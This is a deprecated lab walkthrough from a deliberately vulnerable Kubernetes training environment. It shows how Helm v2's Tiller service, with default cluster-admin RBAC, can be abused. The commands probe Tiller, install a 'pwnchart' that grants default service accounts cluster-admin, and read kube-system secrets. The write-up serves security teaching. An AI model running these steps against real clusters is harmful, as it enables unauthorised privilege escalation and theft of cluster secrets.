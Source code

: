 # Helm v2 tiller to PwN the cluster - [Deprecated]

***This scenario has been deprecated and read-only documentation available to learn :)***

## Scenario Information

Helm is a package manager for Kubernetes. It's like `apt-get` for ubuntu. In this scenario, we will see the older version of helm (version 2), tiller service RBAC default setup to gain access to the completed cluster.

* To get started with the scenario, run the following command

```bash
kubectl run --rm --restart=Never -it --image=madhuakula/k8s-goat-helm-tiller -- bash
```

![Scenario 9 welcome](images/sc-9-1.png)

## Scenario Solution

* By default helm version 2 tiller deployment has RBAC with full cluster administrator privileges
* So the default installation is in `kube-system` namespace with service name `tiller-deploy` and port `44134` exposed to `0.0.0.0`. So we can verify by running telnet command

```bash
telnet tiller-deploy.kube-system 44134
```

![Scenario 9 telnet](images/sc-9-2.png)

* Now, we are able to connect to the tiller service port. We can use the helm binary to perform operations and talk to tiller service

```bash
helm --host tiller-deploy.kube-system:44134 version
```

![Scenario 9 telnet](images/sc-9-3.png)

* Let's try if we can get Kubernetes secrets from the cluster from `kube-system` namespace

```bash
kubectl get secrets -n kube-system
```

![Scenario 9 before secrets](images/sc-9-4.png)

* Now we can create our own helm chart to give permissions to default service account full cluster admin access, as by default the current pod deployed in default namespace which has the default service account

```bash
helm --host tiller-deploy.kube-system:44134 install --name pwnchart /pwnchart
```

![Scenario 9 deploy chart](images/sc-9-5.png)

* Now the `pwnchart` has been deployed, it has given all the default service accounts cluster admin access. Hence let's try getting the `kube-system` namespace secrets again

```bash
kubectl get secrets -n kube-system
```

![Scenario 9 deploy chart](images/sc-9-6.png)

> This scenario varies how the tiller deployment has been performed, sometimes admins deploy tiller to a specific namespace with specific privilege. Also from Helm version 3, there is no tiller service to mitigate such vulnerabilities

## Miscellaneous

* [https://engineering.bitnami.com/articles/helm-security.html](https://engineering.bitnami.com/articles/helm-security.html)
